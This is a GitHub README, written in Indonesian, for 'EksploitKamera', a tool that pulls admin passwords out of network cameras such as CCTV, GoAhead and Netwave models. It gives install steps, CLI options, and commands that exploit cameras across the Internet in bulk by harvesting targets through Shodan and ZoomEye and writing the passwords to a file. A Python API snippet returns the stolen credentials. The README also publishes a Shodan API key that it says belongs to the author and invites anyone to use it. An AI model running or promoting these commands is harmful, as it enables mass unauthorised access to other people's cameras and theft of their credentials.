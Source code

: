 ## EksploitKamera

<p align="center">
  <img src="https://github.com/Yoga913/EksploitKamera/blob/main/gambar.jpg" alt="Deskripsi Gambar" width="300">
</p>

EksploitKamera adalah alat eksploitasi kamera yang memungkinkan pengungkapan kata sandi admin kamera jaringan.

## Fitur

* Mengeksploitasi kerentanan pada sebagian besar model kamera populer seperti `CCTV`, `GoAhead`, dan `Netwave`.
* Dioptimalkan untuk mengeksploitasi beberapa kamera sekaligus dari daftar dengan threading diaktifkan.
* Penggunaan CLI dan API yang sederhana.

## Instalasi

```shell
pip3 install git+https://github.com/Yoga913/EksploitKamera
```

## Penggunaan dasar

Untuk menggunakan EksploitKamera, ketik saja `eksploitkamera` di terminal Anda.

```
penggunaan: eksploitkamera [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN]

[--zoomeye ZOOMEYE] [-p PAGES]

eksploitkamera adalah alat eksploitasi kamera yang memungkinkan pengungkapan kata sandi admin kamera jaringan.

argumen opsional:
-h, --help tampilkan pesan bantuan ini dan keluar
-t, --threads Gunakan thread untuk pekerjaan tercepat.
-o OUTPUT, --output OUTPUT
Hasil Untuk file.
-i INPUT, --input INPUT
File alamat.
-a ADDRESS, --address ADDRESS
Satu alamat. --shodan SHODAN Kunci API Shodan untuk mengeksploitasi perangkat melalui Internet.
--zoomeye ZOOMEYE Kunci API ZoomEye untuk mengeksploitasi perangkat melalui Internet.
-p PAGES, --pages PAGES
Jumlah halaman yang ingin Anda dapatkan dari ZoomEye.
```

### Contoh 

**Mengeksploitasi satu kamera**

```shell
eksploitkamera -a 192.168.99.100
```

**Mengeksploitasi kamera dari Internet**

Menggunakan mesin pencari Shodan untuk mengeksploitasi kamera melalui Internet, Menggunakannya dengan `-t` untuk eksploitasi cepat.

```shell
eksploitkamera -t --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD
```

**CATATAN:** ​​Mengingat kunci API Shodan (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) adalah kunci API PRO saya, Anda dapat menggunakan kunci ini atau kunci Anda sendiri,
bebas menggunakan semua sumber daya kami secara gratis :)

**Mengeksploitasi kamera dari file input**

Menggunakan basis data kamera yang dibuka dengan `-t` untuk eksploitasi cepat.

```shell
eksploitkamera -t -i camera.txt -o passwords.txt
```

**CATATAN:** ​​Ini akan mengeksploitasi semua kamera dalam daftar `cameras.txt` berdasarkan alamatnya dan menyimpan semua kata sandi yang diperoleh
ke `passwords.txt`.

## Penggunaan API

EksploitKamera juga memiliki API Python mereka sendiri yang dapat dipanggil dengan mengimpor EksploitKamera ke kode Anda.

```python
from eksploitkamera import EksploitKamera
```

### Fungsi dasar

Ada semua fungsi dasar EksploitKamera yang dapat digunakan untuk mengeksploitasi kamera tertentu.

* `exploit(address)` - Mengeksploitasi satu kamera dengan alamat yang diberikan.

### Contoh

**Mengeksploitasi satu kamera**

```python
from eksploitkamera import EksploitKamera

eksploitkamera = EksploitKamera()
creds = eksploitkamera.exploit('192.168.99.100')

print(creds)
```
